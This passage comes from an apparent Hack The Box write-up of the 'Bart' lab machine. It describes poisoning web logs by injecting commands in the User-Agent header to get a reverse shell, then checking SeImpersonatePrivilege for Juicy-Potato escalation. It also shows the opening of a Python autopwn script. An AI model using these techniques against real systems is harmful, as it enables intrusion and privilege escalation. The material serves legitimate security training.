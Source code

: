 The next thing to code is the login on the website **http://internal-01.bart.htb**, for that I need the names of the parameters that I can get by simulating an authentication and analyze the traffic directly in the browser. With the **re** library, I leak the **URL** that allows me to poison the logs, and I can send the malicious request with the command I want to be executed, before I get a **Reverse Shell** I try to send a `ping` trace to see if the script works correctly.

```bash
# 3rd Register user
# 4th Obtain URL Poissoning
python3 autopwn_hack4u.py old0y boy
  r.text
  re.findall(r"GET\', \'(.*?)\'", r.text)
  re.findall(r"GET\', \'(.*?)\'", r.text)[0]

# 5th Make Poisson
sudo tcpdump -i tun0 icmp -n
python3 autopwn_hack4u.py arnold ping.php             # :)
```

<br />
<img src="{{ site.img_path }}/bart_writeup/Bart_68.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bart_writeup/Bart_69.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bart_writeup/Bart_70.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bart_writeup/Bart_71.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now I can send the request with the malicious command injected in the **User-Agent** field of the Header to get a **Reverse Shell**. Everything works correctly, but in the first attempt I use `nc` to wait for the connection, so to avoid this I make some last modifications in the script and this way I create an interactive shell when executing it. I just have to perform some recon commands and I find that the compromised user has the **SeImpersonatePrivilege** privilege, so maybe he is susceptible to privilege escalation using **[Juicy-Potato](https://github.com/k4sth4/Juicy-Potato){:target="_blank"}**. Before downloading the malicious binary I must check the **OS architecture** (**x64-based PC**).

> **autopwn_hack4u.py**:

```python
#!/usr/bin/python3

import sys,signal,pdb,requests,re,threading
# from pwn import *

if len(sys.argv) != 3:
    print("\n\n[!] Use: " + sys.argv[0] + " <username> <malicious file>\n")
    sys.exit(1)

def def_handler(sig,frame):
    print("\n\n[!] Exiting ...\n")
    sys.exit(1)

# Ctrl+c
signal.signal(signal.SIGINT, def_handler)

# Global Variables

username = sys.argv[1]
url_log_name = sys.argv[2]
monitor_url = "http://monitor.bart.htb/"
monitor_internal_url = "http://monitor.bart.htb/?&mod=server"
lport = 443
```